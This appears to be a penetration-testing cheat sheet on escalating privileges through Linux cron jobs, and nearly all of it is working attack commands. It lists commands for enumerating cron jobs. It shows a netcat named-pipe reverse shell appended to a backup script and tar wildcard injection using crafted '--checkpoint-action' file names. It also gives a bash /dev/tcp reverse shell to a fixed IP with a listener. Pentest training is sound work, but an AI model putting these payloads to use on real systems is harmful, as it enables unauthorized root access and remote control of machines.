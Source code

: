 # Cron jobs

_<mark style="background-color:purple;">**Enumerate cron jobs**</mark>_

```powershell
ls -lah /etc/cron*crontab -l
sudo crontab -l
grep "CRON" /var/log/syslog
cat /etc/cron.d/*
```

_<mark style="background-color:purple;">**add a reverse shell to cronjob**</mark>_

```powershell
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip} 1234 >/tmp/f" >> user_backups.sh
```

`nc -lvnp 1234`&#x20;



### Cron jobs with tar wildcards:

* e.g `CRON[185223]: (root) CMD (cd /opt/admin && tar -zxf /tmp/backup.tar.gz *)`

Create 2 special files for tar:

```sh
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh\ shell.sh
```

Create shell.sh:

{% code overflow="wrap" %}
```sh
echo "bash -i >& /dev/tcp/192.168.45.214/1111 0>&1" > shell.sh

chmod +x shell.sh
```
{% endcode %}

Set up listener on kali:

`nc -lvnp 1111`
